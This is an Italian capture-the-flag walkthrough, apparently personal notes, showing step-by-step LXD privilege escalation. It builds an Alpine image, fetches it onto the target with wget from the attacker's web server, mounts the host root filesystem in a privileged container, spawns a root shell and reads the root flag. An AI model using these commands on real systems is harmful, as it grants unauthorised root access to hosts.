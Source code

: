 1) Nel computer mi clono questa directory: 
  git clone  https://github.com/saghul/lxd-alpine-builder.git

2) Entro nella cartella lxd-alpine-builder:
  cd lxd-alpine-builder

3) Eseguo l'eseguibile "build-alpine":
 sudo ./build-alpine

4) Poi nella stessa directory avvio un webserver in python:
   python3 -m http.server 8000

----> Nella Macchina Target(Entro prima nella cartella tmp: cd /tmp):

5) Mi scarico il file "alpine-v3.13-x86_64-20210218_0139.tar.gz":
  wget http://£LOCALIP:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz

6) Eseguo il file appena scaricato:
  lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz   --alias myimage

7) Eseguo i seguenti comandi per far spawnare la shell di root:
  - lxc init myimage ignite -c security.privileged=true
  -->OUTPUT: Creating ignite
  - lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
  -->OUTPUT:Device mydevice added to ignite
  - lxc start ignite
  - lxc exec ignite /bin/sh

8) Ora che sono root, navigando nelle directory scopro che nella directory /mnt/root/root ci sta la root flag:
  cat /mnt/root/root/root.txt


